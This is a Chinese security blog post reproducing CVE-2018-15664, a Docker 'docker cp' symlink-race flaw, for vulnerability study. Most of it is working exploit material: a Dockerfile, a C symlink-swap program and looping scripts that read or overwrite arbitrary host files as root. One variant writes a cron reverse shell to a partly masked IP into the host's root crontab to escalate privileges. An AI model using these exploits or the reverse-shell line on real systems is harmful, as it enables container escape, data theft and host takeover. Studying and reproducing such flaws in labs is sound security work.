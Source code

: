#  符号连接替换漏洞复现   
h11ba1  巢安实验室   2024-04-04 22:50  
  
**简介**  
在18.06.1-ce-rc2版本之前的Docker中，docker cp命令对应的后端API存在基于竞争的符号链接替换漏洞，能够导致目录穿越。攻击者可以利用此漏洞以root权限实现宿主机文件系统的任意读写，CVSS 3.x评分为7.5分。漏洞原理CVE-2018-15664是一个TOCTOU(time-of-check to time-of-use)问题，属于竟态条件漏洞。这个问题指的是对象进行安全检查和使用该对象的步骤之间存在间隙，攻击者可以先构造并放置一个能够通过安全检查的合法对象，顺利通过目标程序的安全检查流程，然后立即使用恶意对象替换之前的合法对象。这样一来，目标程序真正使用的实际上是被替换后的恶意对象。漏洞原理流程图攻击首先利用合法文件进行合法校验，正常文件校验通过之后再把合法文件替换为恶意文件。达到恶意利用的目的。以上就是TOCTOU问题的原理。这个问题看起来很抽象，他在实际的攻防中如何实现呢？对于CVE-2018-15664来说，当用户执行docker cp命令后，Docker守护进程收到这个请求，就会对用户给出的复制路径进行检查。如果路径中有容器内部的符号链接，则先在容器内部将其解析成路径字符串，留待后用。一眼看上去，该流程似乎很正常，但要考虑到容器内部环境不可控。如果Docker守护进程检查复制路径时，攻击者先在这里放置一个非符号链接的常规文件或目录（提供合法文件/xxx），检查结束后，攻击者赶在Docker守护进程使用这个路径前将其替换为一个符号链接（替换为/yyy恶意文件），那么这个符号链接就会于被打开时在宿主机上解析，从而导致目录穿越。环境安装使用metarget进行安装SHELL1sudo ./metarget cnv install cve-2018-15664此时安装了具有cve-2018-15664漏洞的docker版本。复现该漏洞还需要启动一些docker镜像来进行验证。《云原生安全-攻防实践与体系构建》一书的配套靶场Poc:PLAINTEXT123456702-CVE-2018-15664/└── symlink_race    ├── build    │   ├── Dockerfile    │   └── symlink_swap.c    ├── run_read.sh    └── run_write.shPocDockerfileDOCKERFILE123456789101112131415161718192021# 基于opensuse/leap进行构造FROM opensuse/leap# 安装gccRUN zypper in -y gcc glibc-devel-static# 创建/builddir目录RUN mkdir /builddir# 将宿主机的symlink_swap.c复制到容器的/builddir/symlink_swap.cCOPY symlink_swap.c /builddir/symlink_swap.c# 编译symlink_swap.c 为 symlink_swapRUN gcc -Wall -Werror -static -o /builddir/symlink_swap /builddir/symlink_swap.c# Set up our malicious rootfs.FROM opensuse/leap# ARG 构建参数，作用与ENV一致。不过作用域不一样，ARG只在Docker build过程中有效，生成的镜像内不存在此环境变量ARG SYMSWAP_TARGET=/w00t_w00t_im_a_flagARG SYMSWAP_PATH=/totally_safe_pathRUN echo "FAILED -- INSIDE CONTAINER PATH" >"$SYMSWAP_TARGET"# --from=0 把前一阶段构建的产物拷贝到当前镜像中COPY --from=0 /builddir/symlink_swap /symlink_swap# 类似CMD命令。在执行docker run时可以指定ENTRYPOINT 运行所需要的参数ENTRYPOINT ["/symlink_swap"]这个Dockerfile使用了多个from。多个FROM指令并不是为了生成多根的层关系，最后生成的镜像，仍以最后一条FROM为准。每一条FROM指令都是一个构建阶段，多条FROM就是多阶段构建，虽然最后生成的镜像只能是最后一个阶段的结果，但是能够将前置阶段中的文件拷贝到后边的阶段，这就是多阶段构建的最大意义。参考：https://segmentfault.com/a/1190000016137548所以这里的第一个FROM主要为了编译symlink_swap。symlink_swap.cC1234567891011121314151617181920212223242526272829303132333435363738394041424344454647484950515253545556575859606162636465666768697071727374757677#define _GNU_SOURCE#include <fcntl.h>#include <stdlib.h>#include <stdio.h>#include <sys/types.h>#include <sys/stat.h>#include <sys/syscall.h>#include <unistd.h>#define usage() \	do { printf("usage: symlink_swap <symlink>\n"); exit(1); } while(0)#define bail(msg) \	do { perror("symlink_swap: " msg); exit(1); } while (0)/* No glibc wrapper for this, so wrap it ourselves. */#define RENAME_EXCHANGE (1 << 1)/*int renameat2(int olddirfd, const char *oldpath,              int newdirfd, const char *newpath, int flags){	return syscall(__NR_renameat2, olddirfd, oldpath, newdirfd, newpath, flags);}*//* usage: symlink_swap <symlink> */int main(int argc, char **argv){// 命令行参数个数不等于2	if (argc != 2)		usage();//    符号链接等于第一个参数	char *symlink_path = argv[1];//	存储路径	char *stash_path = NULL;//	存储路径不存在则bail("create stash_path")	if (asprintf(&stash_path, "%s-stashed", symlink_path) < 0)		bail("create stash_path");	/* Create a dummy file at symlink_path. *///	 在symlink_path 创建一个虚拟文件	struct stat sb = {0};	if (!lstat(symlink_path, &sb)) {		int err;		if (sb.st_mode & S_IFDIR)			err = rmdir(symlink_path);		else			err = unlink(symlink_path);		if (err < 0)			bail("unlink symlink_path");	}	/*	 * Now create a symlink to "/" (which will resolve to the host's root if we	 * win the race) and a dummy directory at stash_path for us to swap with.	 * We use a directory to remove the possibility of ENOTDIR which reduces	 * the chance of us winning.	 */	 /*	 现在创建一个指向 "/" 的符号链接（如果我们赢得比赛，它将解析到主机的根目录）和一个 stash_path 的虚拟目录供我们交换。	 我们使用目录来消除 ENOTDIR 的可能性，这会降低我们获胜的机会。	 */	if (symlink("/", symlink_path) < 0)		bail("create symlink_path");	if (mkdir(stash_path, 0755) < 0)		bail("mkdir stash_path");	/* Now we do a RENAME_EXCHANGE forever. *///	 不断重命名	for (;;) {		int err = renameat2(AT_FDCWD, symlink_path,	                        AT_FDCWD, stash_path, RENAME_EXCHANGE);		if (err < 0)			perror("symlink_swap: rename exchange failed");	}	return 0;}symlink_swap.c的任务是在容器内创建指向根目录/的符号链接，并不断地交换符号链接（由命令行参数传入，如/totally_safe_path）与一个正常目录（例如/totally_safe_path-stashed）的名字。这样一来，在宿主机上执行docker cp时，如果首先检查到/totally_safe_path是一个正常目录，但在后面执行复制操作时/totally_safe_path却变成了一个符号链接(需要读取/写入如的文件链接)，那么Docker将在宿主机上解析这个符号链接。run_write.shSHELL1234567891011121314151617181920212223242526272829303132333435#!/bin/zsh# 需要此处需要注意，在linux执行的话，需要修改为#!/bin/bashSYMSWAP_PATH=/totally_safe_pathSYMSWAP_TARGET=/w00t_w00t_im_a_flag# Create our flag.# 创建flag 到/w00t_w00t_im_a_flag文件echo "FAILED -- HOST FILE UNCHANGED" | sudo tee "$SYMSWAP_TARGET"# 添加权限sudo chmod 0444 "$SYMSWAP_TARGET"# Run and build the malicious image.# 运行并构建恶意镜像# --tag, -t: 镜像的名字及标签，通常 name:tag 或者 name 格式；可以在一次构建中为一个镜像设置多个标签。# --rm :设置镜像成功后删除中间容器；# -d 后台运行docker build -t cyphar/symlink_swap \	--build-arg "SYMSWAP_PATH=$SYMSWAP_PATH" \	--build-arg "SYMSWAP_TARGET=$SYMSWAP_TARGET" build/#ctr_id=$(docker run --rm -d cyphar/symlink_swap "$SYMSWAP_PATH")# 输出内容到当前目录的localpath文件echo "SUCCESS -- HOST FILE CHANGED" | tee localpath# Now continually try to copy the files.# 拷贝文件，尝试触发漏洞while truedo#  从宿主机拷贝文件到容器# 触发条件竞争即可拷贝localpath到宿主机的$SYMSWAP_TARGET。达到低权限任意文件写的提权目的	docker cp localpath "${ctr_id}:$SYMSWAP_PATH/$SYMSWAP_TARGET"done直接执行run_write.sh。会在创建内容为FAILED -- HOST FILE UNCHANGED的/w00t_w00t_im_a_flag文件，权限为0444-r--r--r--只读。最后执行docker cp命令触发漏洞将localpath内容（SUCCESS – HOST FILE CHANGED）覆盖到/w00t_w00t_im_a_flag。达到低权限任意写文件的目的。可能的攻击场景：用户获取一个低权限账号，但是这个权限能够操控docker的（其实利用正如作者所说利用特权容器更加简单容易）。利用这个方式可向宿主机任意目录写入文件。通过写反弹shell到定时任务目录，写ssh私钥覆盖等方式能达到提权的目的。简单尝试了一下向ubuntu的定时任务写shell。DOCKERFILE1234567891011121314151617# Build the binary.FROM opensuse/leapRUN zypper in -y gcc glibc-devel-staticRUN mkdir /builddirCOPY symlink_swap.c /builddir/symlink_swap.cRUN gcc -Wall -Werror -static -o /builddir/symlink_swap /builddir/symlink_swap.c# Set up our malicious rootfs.FROM ubuntu:18.04# 需要操纵的宿主机路径ARG SYMSWAP_PATH=/var/spool/cron/crontabsARG SYMSWAP_TARGET=/rootRUN apt-get updateRUN apt-get install cron# RUN echo "FAILED -- INSIDE CONTAINER PATH" >"$SYMSWAP_TARGET"COPY --from=0 /builddir/symlink_swap /symlink_swapENTRYPOINT ["/symlink_swap"]SHELL12345678910111213141516171819202122#!/bin/bashSYMSWAP_PATH=/totally_safe_pathSYMSWAP_TARGET=/var/spool/cron/crontabs/root# Run and build the malicious image.docker build -t cyphar/symlink_swap \	--build-arg "SYMSWAP_PATH=$SYMSWAP_PATH" \	--build-arg "SYMSWAP_TARGET=$SYMSWAP_TARGET" build/ctr_id=$(docker run --rm -d cyphar/symlink_swap "$SYMSWAP_PATH")# 定时任务shellecho "*/1 * * * * bash -c 'bash -i >& /dev/tcp/45.156.x.x/2334 0>&1' > /home/ubuntu/test.txt" | tee localpath# 拷贝文件，尝试触发漏洞while truedo#  从宿主机拷贝文件到容器# 触发条件竞争即可拷贝localpath到宿主机的$SYMSWAP_TARGET。达到低权限任意文件写的提权目的	docker cp localpath "${ctr_id}:$SYMSWAP_PATH$SYMSWAP_TARGET"done最后也没有尝试成功。有复现出来的大佬可以给留言评论探讨一下。run_read.shSHELL1234567891011121314151617181920212223SYMSWAP_PATH=/totally_safe_pathSYMSWAP_TARGET=/w00t_w00t_im_a_flag# Create our flag.echo "SUCCESS -- COPIED FROM THE HOST" | sudo tee "$SYMSWAP_TARGET"sudo chmod 000 "$SYMSWAP_TARGET"# Run and build the malicious image.docker build -t cyphar/symlink_swap \	--build-arg "SYMSWAP_PATH=$SYMSWAP_PATH" \	--build-arg "SYMSWAP_TARGET=$SYMSWAP_TARGET" build/ctr_id=$(docker run --rm -d cyphar/symlink_swap "$SYMSWAP_PATH")# Now continually try to copy the files.idx=0while truedo	mkdir "ex${idx}"#	 拷贝容器的文件到宿主机# 这里触发条件竞争即可拷贝任意宿主机文件到ex${idx)/out。达到低权限任意读取宿主机文件的提权目的	docker cp "${ctr_id}:$SYMSWAP_PATH/$SYMSWAP_TARGET" "ex${idx}/out"	idx=$(($idx + 1))done这里触发条件竞争即可拷贝任意宿主机文件到ex${idx)/out。达到低权限任意读取宿主机文件的提权目的总体来说这个漏洞还是比较鸡肋，但是对于漏洞学习，研究来说还是很有价值的。参考《云原生安全：攻防实践与体系构建》  
![](https://mmbiz.qpic.cn/mmbiz_jpg/n2rSqJSRAVzNPDEiadhLROCQUuMQyouq2OicjCbTSbk6ZLyzR1uHhPhJZLuZTFaM31tS5jvcDB3sfVsb9novFWeQ/640?wx_fmt=jpeg "")  
  
**本文版权归作者和微信公众号平台共有，重在学习交流，不以任何盈利为目的，欢迎转载。**  
  
****  
**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。公众号内容中部分攻防技巧等只允许在目标授权的情况下进行使用，大部分文章来自各大安全社区，个人博客，如有侵权请立即联系公众号进行删除。若不同意以上警告信息请立即退出浏览！！！**  
  
****  
**敲敲小黑板：《刑法》第二百八十五条　【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。**  
  
  
